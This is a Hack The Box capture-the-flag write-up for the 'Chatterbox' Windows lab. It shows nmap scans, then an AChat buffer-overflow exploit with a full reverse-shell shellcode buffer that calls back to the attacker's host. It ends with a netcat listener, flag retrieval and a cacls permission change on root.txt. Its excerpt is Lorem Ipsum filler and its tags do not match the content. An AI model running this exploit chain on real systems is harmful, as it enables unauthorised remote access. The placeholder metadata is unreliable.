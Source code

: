 ```yaml
---
layout: single
title: chatterbox - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-03-27
classes: wide
header:
  teaser: /assets/images/htb-writeup-chatterbox/chatterbox_logo.png
  teaser_home_page: true
  icon: /assets/images/windows.png
categories:
  - hackthebox
  - infosec
tags:  
  - windows
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-chatterbox/chatterbox_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/chatterbox]# nmap -Pn -n -sCV 10.10.10.74 --open                                                                   (master✱)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 10:20 CET
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.69 seconds

Normal nmap scan finds nothing. Trying UDP returns the same, nothing.
[root:/git/htb/chatterbox]# nmap -sU -sV --version-intensity 0 -F -n 10.10.10.74                                                  (master✱)
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 10:24 CET
  Nmap scan report for 10.10.10.74
  Host is up (0.035s latency).
  All 100 scanned ports on 10.10.10.74 are open|filtered

Expand the tcp scan by looking on all ports.
[root:/git/htb/chatterbox]# nmap -p- -T5 10.10.10.74                                                                              (master✱)
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 10:33 CET
  Nmap scan report for chatterbox.htb (10.10.10.74)
  Host is up (0.034s latency).
  Not shown: 65533 filtered ports
  PORT     STATE SERVICE
  9255/tcp open  mon
  9256/tcp open  unknown

Version and script scan to see if we can figure out anything more about the services:
[root:/git/htb/chatterbox]# nmap -sCV -p9255,9256 10.10.10.74                                                                     (master✱)
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 10:38 CET
  Nmap scan report for chatterbox.htb (10.10.10.74)
  Host is up (0.034s latency).

  PORT     STATE SERVICE VERSION
  9255/tcp open  http    AChat chat system httpd
  |_http-server-header: AChat
  |_http-title: Site doesn't have a title.
  9256/tcp open  achat   AChat chat system

[root:/git/htb/chatterbox]# curl 10.10.10.74:9255                                                                                 (master✱)
[root:/git/htb/chatterbox]# curl 10.10.10.74:9256                                                                                 (master✱)
  curl: (1) Received HTTP/0.9 when not allowed


2. Google for 'AChat enumerate port 9255 9256' and I come across 'achat reverse tcp exploit'. Downloading the files,
modify the payload-file to create a 'windows/shell_reverse_tcp' payload rather then meterpreter (no go in OSCP).

Generate the payload, edit the exploit-file with the new buf-data, and lastly change the server address (in the script)
to our victim.

[root:/git/htb/chatterbox]# ./AChat_Payload.sh                                                                                    (master✱)
  RHOST: 10.10.10.74
  LHOST: 10.10.14.5
  LPORT: 4488
  Found 1 compatible encoders
  Attempting to encode payload with 1 iterations of x86/unicode_mixed
  x86/unicode_mixed succeeded with size 774 (iteration=0)
  x86/unicode_mixed chosen with final size 774
  Payload size: 774 bytes
  Final size of python file: 3767 bytes
  buf =  b""
  buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
  buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
  buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
  buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
  buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
  buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
  buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
  buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
  buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
  buf += b"\x47\x42\x39\x75\x34\x4a\x42\x49\x6c\x48\x68\x35\x32"
  buf += b"\x39\x70\x4b\x50\x6b\x50\x53\x30\x31\x79\x6b\x35\x50"
  buf += b"\x31\x55\x70\x4f\x74\x62\x6b\x42\x30\x6e\x50\x42\x6b"
  buf += b"\x6e\x72\x6a\x6c\x44\x4b\x6e\x72\x4e\x34\x34\x4b\x52"
  buf += b"\x52\x4d\x58\x7a\x6f\x74\x77\x4f\x5a\x4d\x56\x6d\x61"
  buf += b"\x59\x6f\x74\x6c\x6f\x4c\x70\x61\x43\x4c\x6c\x42\x4c"
  buf += b"\x6c\x6f\x30\x35\x71\x78\x4f\x7a\x6d\x4d\x31\x56\x67"
  buf += b"\x57\x72\x4c\x32\x52\x32\x51\x47\x62\x6b\x62\x32\x4a"
  buf += b"\x70\x62\x6b\x4e\x6a\x4d\x6c\x44\x4b\x30\x4c\x4e\x31"
  buf += b"\x42\x58\x38\x63\x6d\x78\x59\x71\x47\x61\x70\x51\x44"
  buf += b"\x4b\x52\x39\x4f\x30\x6d\x31\x78\x53\x64\x4b\x51\x39"
  buf += b"\x7a\x78\x69\x53\x6e\x5a\x6d\x79\x62\x6b\x4d\x64\x64"
  buf += b"\x4b\x6d\x31\x49\x46\x50\x31\x59\x6f\x54\x6c\x76\x61"
  buf += b"\x36\x6f\x6c\x4d\x59\x71\x49\x37\x6e\x58\x39\x50\x43"
  buf += b"\x45\x4c\x36\x6c\x43\x33\x4d\x6c\x38\x6f\x4b\x73\x4d"
  buf += b"\x6b\x74\x64\x35\x6b\x34\x72\x38\x44\x4b\x52\x38\x4d"
  buf += b"\x54\x7a\x61\x38\x53\x50\x66\x72\x6b\x4c\x4c\x70\x4b"
  buf += b"\x34\x4b\x61\x48\x4b\x6c\x39\x71\x68\x53\x54\x4b\x6d"
  buf += b"\x34\x32\x6b\x79\x71\x78\x50\x61\x79\x4f\x54\x6f\x34"
  buf += b"\x6d\x54\x61\x4b\x6f\x6b\x63\x31\x42\x39\x50\x5a\x52"
  buf += b"\x31\x49\x6f\x69\x50\x4f\x6f\x31\x4f\x51\x4a\x64\x4b"
  buf += b"\x6a\x72\x6a\x4b\x32\x6d\x6f\x6d\x72\x48\x6c\x73\x6d"
  buf += b"\x62\x4b\x50\x6d\x30\x73\x38\x53\x47\x70\x73\x70\x32"
  buf += b"\x31\x4f\x50\x54\x72\x48\x6e\x6c\x50\x77\x6e\x46\x69"
  buf += b"\x77\x4b\x4f\x67\x65\x57\x48\x64\x50\x6a\x61\x69\x70"
  buf += b"\x59\x70\x6b\x79\x66\x64\x4f\x64\x6e\x70\x52\x48\x4d"
  buf += b"\x59\x75\x30\x62\x4b\x69\x70\x59\x6f\x36\x75\x42\x30"
  buf += b"\x32\x30\x72\x30\x6e\x70\x6d\x70\x4e\x70\x4d\x70\x30"
  buf += b"\x50\x52\x48\x7a\x4a\x4a\x6f\x57\x6f\x67\x70\x59\x6f"
  buf += b"\x47\x65\x43\x67\x70\x6a\x4a\x65\x71\x58\x4a\x6a\x69"
  buf += b"\x7a\x6a\x6e\x59\x75\x32\x48\x6b\x52\x6b\x50\x6b\x61"
  buf += b"\x33\x58\x34\x49\x78\x66\x70\x6a\x6e\x30\x42\x36\x51"
  buf += b"\x47\x6f\x78\x35\x49\x54\x65\x30\x74\x63\x31\x79\x6f"
  buf += b"\x36\x75\x62\x65\x69\x30\x73\x44\x7a\x6c\x79\x6f\x70"
  buf += b"\x4e\x6a\x68\x44\x35\x5a\x4c\x30\x68\x38\x70\x57\x45"
  buf += b"\x34\x62\x71\x46\x4b\x4f\x48\x55\x61\x58\x33\x33\x52"
  buf += b"\x4d\x4f\x74\x6b\x50\x32\x69\x69\x53\x71\x47\x50\x57"
  buf += b"\x71\x47\x6c\x71\x79\x66\x4f\x7a\x4b\x62\x32\x39\x31"
  buf += b"\x46\x47\x72\x4b\x4d\x62\x46\x48\x47\x4d\x74\x4d\x54"
  buf += b"\x6f\x4c\x69\x71\x6b\x51\x72\x6d\x4e\x64\x6c\x64\x6c"
  buf += b"\x50\x67\x56\x49\x70\x6d\x74\x42\x34\x4e\x70\x6f\x66"
  buf += b"\x71\x46\x4f\x66\x61\x36\x52\x36\x6e\x6e\x62\x36\x62"
  buf += b"\x36\x6e\x73\x4e\x76\x53\x38\x30\x79\x58\x4c\x6d\x6f"
  buf += b"\x74\x46\x4b\x4f\x68\x55\x62\x69\x37\x70\x6e\x6e\x62"
  buf += b"\x36\x6f\x56\x4b\x4f\x4c\x70\x61\x58\x4d\x38\x54\x47"
  buf += b"\x6b\x6d\x33\x30\x6b\x4f\x66\x75\x67\x4b\x49\x50\x4d"
  buf += b"\x4d\x4d\x5a\x59\x7a\x61\x58\x76\x46\x34\x55\x77\x4d"
  buf += b"\x53\x6d\x39\x6f\x36\x75\x6f\x4c\x5a\x66\x51\x6c\x5a"
  buf += b"\x6a\x71\x70\x6b\x4b\x79\x50\x54\x35\x5a\x65\x55\x6b"
  buf += b"\x31\x37\x6b\x63\x31\x62\x72\x4f\x71\x5a\x79\x70\x51"

[root:/git/htb/chatterbox]# python AChat_Exploit.py                                                                               (master✱)
  [+] BUFFER OVERFLOW PAYLOAD RELEASED -- CHECK YOUR HANDLER

[root:/git/htb/chatterbox]# rlwrap nc -lvnp 4488                                                                                  (master✱)
  listening on [any] 4488 ...
  connect to [10.10.14.5] from (UNKNOWN) [10.10.10.74] 49161
  Microsoft Windows [Version 6.1.7601]
  Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

  C:\Windows\system32> whoami
    chatterbox\alfred


3. Grab user.txt

C:\Users\Alfred\Desktop> type user.txt
  02c94ad2f3a9d10f7f327b895249a2f8

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Once we have a reverse shell as Alfred, we notice that we got read access to the \Users\Administrator directory - usually
the users don't have permission to enter this folder.

C:\Users\Administrator\Desktop> type root.txt
Access is denied.

Unfortunately we can't just print root as of yet. But maybe the privileges of the Admin dir is a good place to start.

C:\Users\Administrator\Desktop> dir root.txt /q
  03/26/2021  07:51 AM                34 CHATTERBOX\Alfred      root.txt


C:\Users\Administrator\Desktop> cacls root.txt /G Alfred:R
  Are you sure (Y/N)? y
  processed file: C:\Users\Administrator\Desktop\root.txt

C:\Users\Administrator\Desktop> type root.txt
  efd540d3337ebc9d2682bec22ab89f45


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

AChat Reverse TCP Exploit:
  https://github.com/EDB4YLI55/achat_reverse_tcp_exploit

File ownership Win7:
  https://superuser.com/questions/691578/how-to-display-change-the-owner-of-a-file-on-windows-7
